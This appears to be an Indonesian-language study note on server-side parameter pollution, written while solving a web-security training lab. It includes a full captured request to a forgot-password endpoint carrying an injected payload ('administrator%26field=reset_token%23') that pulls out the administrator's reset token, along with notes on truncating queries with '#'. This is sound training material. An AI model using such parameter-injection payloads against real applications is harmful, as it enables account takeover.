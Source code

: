 Untuk mendapatkan gambaran yang lebih lengkap, Anda perlu menguji lebih lanjut.

## Mengganti parameter yang ada

Untuk mengonfirmasi apakah aplikasi rentan terhadap polusi parameter sisi server, Anda dapat mencoba mengganti parameter asli. Lakukan ini dengan memasukkan parameter kedua dengan nama yang sama.

Misalnya, Anda dapat mengubah string kueri menjadi yang berikut:

`GET /userSearch?name=peter%26name=carlos&back=/home`

Hal ini menghasilkan permintaan sisi server berikut ke API internal:

`GET /users/search?name=peter&name=carlos&publicProfile=true`

**cara solve lab nya**


```json
POST /forgot-password HTTP/2
Host: 0afc00be04d368c5826b97600022006d.web-security-academy.net
Cookie: session=c6mFYUo1E5reILpcbxdbRrE2YqgeFi2l
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0afc00be04d368c5826b97600022006d.web-security-academy.net/forgot-password
Content-Type: x-www-form-urlencoded
Content-Length: 83
Origin: https://0afc00be04d368c5826b97600022006d.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=ejjMpOVxZH8P2K5YkeQhMUohCOOOOXRx&username=administrator%26field=reset_token%23
```

di sini saya pertama itu menggunakan tanda &username=carlos dan ternyata juga masih bisa, terus saya coba ganti username ke field=FUZZ# dan ternyata mungkin query nya terpotong. sebelum itu saya coba pakai #FOO dulu dan ternyata terpotong


dan untuk test token ganti method ke GET dan tambah query param reset_token=value


## Menguji polusi parameter sisi server di jalur REST

RESTful API dapat menempatkan nama dan nilai parameter di jalur URL, bukan di string kueri. Misalnya, pertimbangkan jalur berikut:

`/api/users/123`

Jalur URL mungkin dipecah sebagai berikut:

- `/api` adalah titik akhir API root.
- `/users` mewakili sumber daya, dalam hal ini `users`.
- `/123`mewakili parameter, di sini pengidentifikasi untuk pengguna tertentu.
